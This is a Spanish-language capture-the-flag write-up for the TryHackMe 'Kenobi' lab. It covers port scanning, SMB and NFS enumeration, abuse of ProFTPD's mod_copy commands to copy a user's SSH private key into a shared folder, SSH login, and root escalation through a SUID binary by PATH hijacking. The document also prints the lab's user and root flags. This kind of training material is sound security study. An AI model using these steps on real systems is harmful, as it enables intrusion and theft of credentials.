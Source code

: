 
# Kenobi

## Mapeo de puertos

Escaneamos los puertos abiertos y los servicios que puedan ser vulnerables.

```
sudo nmap -sV -O -T4 10.10.17.83
```

Tenemos 7 puertos abiertos potencialmente vulnerables.


![Imagen](images/image001.png)

## Enumerando

SMB tiene dos puertos: 139 y 445. Usamos el siguiente comando de nmap con un script para enumerarlos:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.17.83
```

Encontramos 3 shares por SMB.

![Imagen](images/Pasted_image_20250223164642.png)

Accedemos al de anonymous:

```
smbclient //10.10.17.83/anonymous
```

Podemos ver que hay un fichero llamado`log.txt`.

![[Pasted image 20250223164906.png]]

Lo descargamos en nuestra máquina anfitrión de Kali.

![[Pasted image 20250223165020.png]]

Mostramos el contenido.

```
cat log.txt
```

Hay información sobre la clave de SSH y del servidor ProFTPD.

![[Pasted image 20250223165112.png]]

Ahora vamos a enumerar con un script de`nmap`el puerto 111, que sirve para acceder al sistema de archivos de una red:

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.236.136
```
Sólo está montada la carpeta`/var`:

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image.png]]

## Acceso mediante Proftpd

Buscamos una vulnerabilidad de la versión del servidor ftp en la máquina.

```
searchsploit proftpd 1.3.5
```

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-1.png]]

Nos conectamos a Proftpd mediante`netcat`:

```
nc 10.10.236.136 21
```

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-2.png]]

Copiamos la clave privada de SSH:

```
SITE CPFR /home/kenobi/.ssh/id_rsa
```

Ponemos como carpeta de destino el directorio`/var`que está siendo compartido en la red.

```
SITE CPTO /var/tmp/id_rsa
```

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-3.png]]

## Acceso por SSH

Montamos la carpeta`/var`a nuestro sistema:

```
sudo mount 10.10.236.136:/var mnt 
```

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-4.png]]

Obtenemos la clave privada de Kenobi para acceder con él.

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-5.png]]

Cambiamos los permisos de la clave:

```
sudo chmod 600 id_rsa
```

Nos conectamos finalmente con el usuario por SSH utilizando la clave.

```
ssh -i id_rsa kenobi@10.10.236.136
```

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-6.png]]

Obtenemos la flag de`user.txt`.

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-7.png]]
```
d0b0f3f53b6caa532a83915e19224899
```

## Escalada de privilegios

Buscamos un binario con el SUID activo.

```
find / -perm -u=s -type f 2>/dev/null
```

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-8.png]]

Ejecutamos el`/usr/bin/menu`porque no es un archivo ordinario:

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-9.png]]

Usamos el comando`strings`también con el binario:

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-10.png]]

Ese comando se está ejecutando con privilegios de root.

Nos aprovechamos de ello y rompemos el comando`curl`:

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-11.png]]

El último comando significa que cuando ejecutemos otros comandos, la shell comprobará los ejecutables en el directorio`/tmp`antes de buscarlo en el resto de direcciones especificadas en el PATH original.

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-12.png]]

Obtenemos la flag de`root.txt`:

```
177b3cd8562289f37382721c28381f02
```
